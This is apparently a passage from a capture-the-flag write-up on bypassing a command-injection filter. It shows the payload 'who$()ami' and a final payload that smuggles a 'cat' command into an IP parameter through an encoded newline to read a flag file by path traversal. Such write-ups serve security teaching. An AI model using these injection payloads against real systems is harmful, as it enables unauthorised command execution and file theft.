 ## Raising the Bar

Again the previous payload does not work:

![338c2cb29a244734a34c1aef14f2ef36.png](../images/338c2cb29a244734a34c1aef14f2ef36.png)

The following does work `who$()ami`

![4d5a7592f7f74883aa88a1625e1e5377.png](../images/4d5a7592f7f74883aa88a1625e1e5377.png)

The final payload is:
`ip=127.0.0.1%0ac$()at<./../../../flag.txt`

![d8aae0b370e94d47b92236c7bf2e6c3a.png](../images/d8aae0b370e94d47b92236c7bf2e6c3a.png)
